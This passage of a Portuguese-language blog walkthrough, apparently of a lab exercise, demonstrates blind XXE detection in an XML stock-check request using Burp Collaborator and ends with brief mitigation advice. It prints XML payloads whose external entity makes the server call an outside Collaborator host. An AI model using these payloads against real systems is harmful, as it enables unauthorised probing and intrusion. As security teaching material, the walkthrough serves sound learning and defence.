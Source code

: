 Até então tudo bem, porém o retorno é apenas o número `764` que é a quantidade unidades do produto que pedimos para verificar no estoque.

Sendo assim, vamos utilizar o Burp Collaborator do BurpSuite para nos ajudar, vamos abrí-lo e copiar o subdomain que estará o nosso payload:

<img src="https://i0.wp.com/1.bp.blogspot.com/--UFf1T4wn14/X7ueSPZjLnI/AAAAAAAArEE/J-QZ44ShTpAosA2dR11gtTe6fMcKZb37QCLcBGAsYHQ/s16000/11.png?w=640&ssl=1"></img>

Ficará da seguinte maneira:

```xml
<!DOCTYPE stockCheck [
<!ENTITY % roz SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net"> %roz; ]>
```

Sendo assim, tentaremos enviar através do `<productId>`:

```xml
<?xml version="1.0" encoding="utf-8"?>
<stockCheck>
  <productId>
    <!DOCTYPE stockCheck [
    <!ENTITY % roz SYSTEM "http://hackerman.burpcollaborator.net"> %roz; ]>
  </productId>
  <storeId>
    1
  </storeId>
</stockCheck>
```

E podemos verificar nas interactions do Collaborator se existem interações, caso sim conseguimos 'explorar' o Blind XXE:

<img src="https://i0.wp.com/1.bp.blogspot.com/-1xpvwoYkuDk/X7ue7MF9TjI/AAAAAAAArEU/5BWHfYc5q0MLS9-ySEOAeIlIifmgeNWrgCLcBGAsYHQ/s16000/13.png?w=640&ssl=1"></img>


Misericórdia, quanta falha, deve ser horrível pra mitigar isso, né?
Não!

### Mitigação

Podemos simplesmente desabilitar DTDs (entidades externas) completamente.

Mas nunca estamos 100% seguros. :)
